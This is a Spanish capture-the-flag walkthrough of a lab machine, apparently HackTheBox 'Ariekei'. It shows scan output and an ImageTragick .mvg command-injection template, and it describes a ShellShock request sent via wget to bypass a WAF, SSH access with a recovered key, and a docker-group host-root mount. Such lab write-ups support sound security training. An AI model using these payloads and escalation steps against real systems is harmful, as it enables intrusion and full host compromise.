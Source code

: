 ---------
- Tags: #shellshock #cgi-bin #image-magick #waf #docker #docker-group #pivoting 
--------------
## Técnicas utilizadas
- ImageTragick Exploitation (Specially designed '.mvg' file)  
- ShellShock Attack (WAF Bypassing)  
- Abusing Docker privilege  
- PIVOTING
## Procedimiento

![[Pasted image 20230619091433.png]]

----------------
#### Reconocimiento

Si lanzamos un escaneo con **nmap** podemos ver lo siguiente:

```
# nmap -sCV -p22,443,1022 10.10.10.65 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 14:17 MST
Nmap scan report for 10.10.10.65
Host is up (0.13s latency).

PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a75bae6593cefbddf96a7fde5067f6ec (RSA)
|   256 642ca65e96cafb10058236baf0c992ef (ECDSA)
|_  256 519f8764be99352a80a6a225ebe0959f (ED25519)
443/tcp  open  ssl/https nginx/1.10.2
| ssl-cert: Subject: stateOrProvinceName=Texas/countryName=US
| Subject Alternative Name: DNS:calvin.ariekei.htb, DNS:beehive.ariekei.htb
| Not valid before: 2017-09-24T01:37:05
|_Not valid after:  2045-02-08T01:37:05
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.10.2
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
1022/tcp open  ssh       OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 9833f6b64c18f5806685470cf6b7907e (DSA)
|   2048 78400d1c79a145d428753536ed424f2d (RSA)
|   256 45a67196df62b554666b917b746adbb7 (ECDSA)
|_  256 ad8d4d698e7afdd8cd6ec14f6f81b41f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```

Ejecutando **whatweb** en la pagina principal, podemos ver las tecnologías que están corriendo por detrás del sitio:

![[Pasted image 20230619142016.png]]

En la pagina principal logramos ver información, podemos intentar crear un diccionario con **cewl** para utilizarlo posteriormente para un ataque de fuerza bruta sobre un login o sobre directorios.

Si interceptamos la petición del formulario de contacto, podemos observar que en la respuesta se nos muestra un código PHP, a su vez, en la cabeceras, vemos que se implementa un **WAF (Web Application Firewall)**.
Si intentamos aplicar un poco de reconocimiento al **WAF** podemos usar la herramienta **wafw00f** y nos da como resultado lo siguiente:
```
# wafw00f "https://beehive.ariekei.htb/"

                   ______
                  /      \
                 (  Woof! )
                  \  ____/                      )
                  ,,                           ) (_
             .-. -    _______                 ( |__|
            ()``; |==|_______)                .)|__|
            / ('        /|\                  (  |__|
        (  /  )        / | \                  . |__|
         \(_)_))      /  |  \                   |__|

                    ~ WAFW00F : v2.1.0 ~
    The Web Application Firewall Fingerprinting Toolkit
    
[*] Checking https://beehive.ariekei.htb/
[+] Generic Detection results:
[*] The site https://beehive.ariekei.htb/ seems to be behind a WAF or some sort of security solution
[~] Reason: The server returns a different response code when an attack string is used.
Normal response code is "200", while the response code to cross-site scripting attack is "403"
[~] Number of requests: 5
```

Este mismo **WAF** nos impide ejecutar un **ShellShock** en el dominio de la pagina, ya que al intentar acontecer el **ShellShock** nos evade el **WAF**

------------
#### ImageTragick Exploitation (Specially designed '.mvg' file)  

Fuzzeando por directorios en ambos dominios y subdominios, podemos encontrar una ruta donde se nos permite subir archivos. Vemos que en el código fuente nos dejan una pista. Podemos intentar explota el ImageMagic que esta corriendo por detrás.  

Para acontecer esta vulnerabilidad, tenemos que crear un archivo con extensión *.mvg* con el siguiente contenido:

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|<command> "<args> <content>)'
pop graphic-context
```

Una vez confirmada la ejecución remota de comandos, podemos entablarnos una *reverse shell* y continuar.

--------
#### ShellShock Attack (WAF Bypassing)

Una vez dentro, podemos irnos a la raíz del systema. Al hacer un *ls -la* podemos ver un archivo *.dockerenv* lo que nos dice que estamos en un contenedor docker. También vemos una carpeta no común de nombre *common*. Si ejecutamos el siguiente comando:

```
# mount | grep "common"
```

Podemos ver que la carpeta pertenece a una montura. En los archivos de la montura, podemos encontrar unas credenciales:

![[Pasted image 20230619145707.png]]


Dentro, de la montura también encontramos una foto que resulta interesante:

Nos muestra la infraestructura del servidor y podemos las otras maquinas en el segmento de red.
Dentro de los archivos que contiene también la carpeta, podemos encontrar un par de claves SSH:

Podemos conectarnos al otro puerto *SSH* que habíamos encontrado en el escaneo con *nmap* con la *id_rsa*. Si llega a representarnos un error, podemos intentar conectarnos de la siguiente manera

```
# ssh -i id_rsa root@ip -p1022 -o "PubkeyAcceptedKeyTypes +ssh-rsa"
```

Ahora, desde esta maquina, según la foto de la infraestructura que habíamos encontrado tendríamos que tener conectividad hacia la maquina del *WAF* ya que pertenecemos a el mismo segmento de red.

Ahora si podríamos explotar el **ShellShock**, ya que desde este contenedor no tenemos que pasar por el **WAF**. Dado que **Curl** no existe, podríamos ejecutar lo siguiente:

```
# wget -U <shell-shock> http://<ip>/cgi-bin/stats
```

Nos entablamos una shell a nuestra maquina.

---------------
#### Abusing Docker privilege  

Podemos autenticarnos como root con las credenciales encontradas en la montura del docker anterior.

Dentro del directorio de usuario, podemos encontrar unas llaves **SSH**, la id_rsa esta encriptada así que podríamos intentar crackearla con **John** 

----------
#### PIVOTING

Dentro de la maquina, vemos que pertenecemos al grupo docker, así que podemos proceder a montar la raíz de todo el equipo en una montura y escalar privilegios.

```
# docker run --rm -v /:/mnt -it <image> bash
```
